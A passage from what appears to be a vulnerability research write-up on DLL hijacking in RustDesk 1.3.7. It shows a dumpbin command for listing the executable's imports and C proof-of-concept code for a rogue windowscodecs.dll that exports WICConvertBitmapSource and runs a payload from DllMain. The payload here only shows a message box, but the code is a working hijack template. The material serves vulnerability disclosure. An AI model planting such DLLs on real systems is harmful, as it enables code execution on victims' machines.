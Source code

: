 ### Extending The PoC

First, we need to examine the imports of RustDesk to determine what function (or functionS ?) it tries to call from `windowscodecs.dll`. This following command does the trick:

```powershell
dumpbin /imports "C:\Users\std\Documents\Vulnerability Research\RustDesk\64bit\rustdesk-1.3.7-x86_64.exe"
```

![](assets/attachment/8298c339507022da165b8598d219175e.png)

Fortunately, RustDesk only attempts to call a single function called `WICConvertBitmapSource`. With that in mind, I updated the PoC code as follows:

```c
/*

    Author:             Arthur Minasyan (B0lg0r0v)
    Date:               29.01.2025
    Description:        PoC for DLL Injection in 32 & 64-Bit PE of RustDesk
    Vulnerable DLL:     windowscodecs.dll

*/
#include <windows.h>


// This function is being exposed because RustDesk needs it.
extern __declspec(dllexport) void WICConvertBitmapSource() {

	// we do nothing at all
}

VOID MsgBoxPayload() {

    // Creating a semaphore for execution control
    HANDLE hSemaphore = CreateSemaphoreA(NULL, 10, 10, "Yolo");

    if (hSemaphore != NULL && GetLastError() == ERROR_ALREADY_EXISTS) {

        // Do nothing
    } else {
    
        // The actual payload
        MessageBoxA(NULL, "DLL Injection Successfully performed!", "DLL Injection", MB_OK | MB_ICONINFORMATION | MB_TOPMOST);
    
    }

}

BOOL APIENTRY DllMain( HMODULE hModule, DWORD  ul_reason_for_call, LPVOID lpReserved ) {
    
    switch (ul_reason_for_call) {
    
		case DLL_PROCESS_ATTACH:
			MsgBoxPayload();
			break;
		case DLL_THREAD_ATTACH:
		case DLL_THREAD_DETACH:
		case DLL_PROCESS_DETACH:
			break;
		
		}
    
```
